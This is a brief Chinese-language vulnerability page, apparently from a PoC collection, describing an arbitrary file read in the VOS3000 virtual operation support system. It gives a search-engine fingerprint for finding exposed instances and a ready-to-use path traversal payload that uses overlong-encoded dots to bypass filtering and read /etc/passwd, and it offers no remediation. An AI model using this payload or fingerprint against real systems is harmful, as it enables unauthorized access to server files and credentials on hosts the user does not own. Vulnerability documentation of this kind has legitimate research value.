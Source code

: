 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>昆石网络 VOS3000虚拟运营支撑系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="VOS-VOS3000"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646106250912-5403bbab-c801-402a-923b-545c45f1051d.png)

验证POC

```javascript
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646106380805-4471d7bf-54b9-4eec-8f1a-b2a33881335b.png)
